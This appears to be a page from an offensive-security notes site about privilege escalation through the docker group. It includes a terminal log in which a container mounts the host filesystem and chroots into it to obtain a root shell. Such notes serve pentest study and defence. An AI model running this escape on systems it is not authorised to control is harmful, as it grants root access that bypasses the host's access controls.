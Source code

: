 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Docker

The [`docker`](https://docs.docker.com/reference/cli/docker/) binary is the CLI for interacting with the Docker daemon, which manages containers on the host system. It enables operations such as running, building, inspecting, and managing containers and images. If accessible to a non-root user, it often indicates that the user belongs to the `docker` group, which effectively grants `root`-equivalent privileges.

This is due to the fact that **the Docker daemon runs as** `root`, and containers can be configured to mount the host filesystem, execute binaries with elevated privileges, or [escape into the host environment entirely](https://gtfobins.github.io/gtfobins/docker/#shell). In offensive security scenarios, access to the `docker` binary is a high-value target for privilege escalation. It allows spawning containers with mapped volumes, executing custom payloads, or even directly gaining a root shell on the host through intentional container abuse.

{% code overflow="wrap" %}
```bash
x7331@kali:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
^C

x7331@kali:~$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
postgres            latest              adf2b126dda8        5 years ago         313MB

x7331@kali:~$ docker run -v /:/mnt --rm -it postgres chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
